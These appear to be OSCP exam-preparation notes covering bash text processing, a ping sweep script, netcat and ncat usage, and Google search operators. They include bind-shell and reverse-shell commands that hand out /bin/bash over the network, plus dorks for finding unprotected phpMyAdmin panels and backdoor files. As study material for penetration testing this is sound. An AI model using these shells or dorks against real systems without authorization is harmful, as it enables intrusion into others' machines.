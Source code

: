 # OSCP
## Tools

#### Bash

The task is to get all urls on the page www.cisco.com

* content of the page can be downloaded with   
  `wget www.cisco.com`
* one line of the file `index.html` looks like that  
  `<li><a,href="http://newsroom.cisco.com/">Newsroom</a></li>`
* we can use a one liner to solve the task    
    * `grep` searches for given string  
    * `cut` gets a delimiter with `-d` and returns the field `-f`
    * `sort -u` shows only unique strings  

```
grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
```
loop over the input of a file line by line
```
for url in $(cat list.txt); do host $url; done
```

Ping Sweep
```
#!/bin/bash

echo "Ping Sweep"

for ip in {0..254}
do
        ping -c1 192.168.178.$ip| grep "bytes from"|cut -d " " -f4|cut -d ":" -f1 &
done
```

!!! info
    * Bind Shell: Server is listening
    * Reverse Shell: Client is listening

### Netcat

* Switches used
    * `-l` listen for connection
    * `-n` Do not do any DNS or service lookups
    * `-v` verbose
    * `-p` source port

* Chat
    * Client: `nc -nv <server ip addr> <open port on server>`
    * Sever: `nc -nlvp <listening port>`

* File transfer
    * Client: `nc -nv <server ip addr> 4444 < sending.exe`
    * Sever: `nc -nlvp 4444 > incoming.exe`

* Bind Shell
    * Client: `nc -vn <server ip addr> 4444`
    * Server: `nc -nlvp 4444 -c <path to shell>`

* Reverse Shell
    * Server has no public ip
    * Client: `nc -nlvp 4444`
    * Server: `nc -vn <client ip addr> 4444 -e /bin/bash`

### Ncat

* improved **Netcat** adds:
    * encryption
    * access limitation

* Bind Shell
    * Client `ncat -v <server ip addr> <open port on server>`
    * Server `ncat -lvp <listening port> -e <path to shell> --allow <client ip addr> --ssl`

### Wireshark
* Follow TCP Stream

### Tcpdump

## Information Gathering

### Active

### Passive
* Google Hacking
    * `site:"<url of website>"`
        * gets all subdomains
        * size of webpresenz
    * `-site:"<url of website>"`
        * exclude these
    * `filetype:<file extesion>`
        * ex.: ppt, pdf, txt
    * `"<search string>"` search the exact string
    * `intitle:"<string>"`
    * `inurl:"</path/for/search>"`
    * `inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin`
        * searching for unprotected phpmyadmin panels
    * `intitle:"-N3t" filetype:php undetectable`
        * searching after string found in backdoor
    * [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
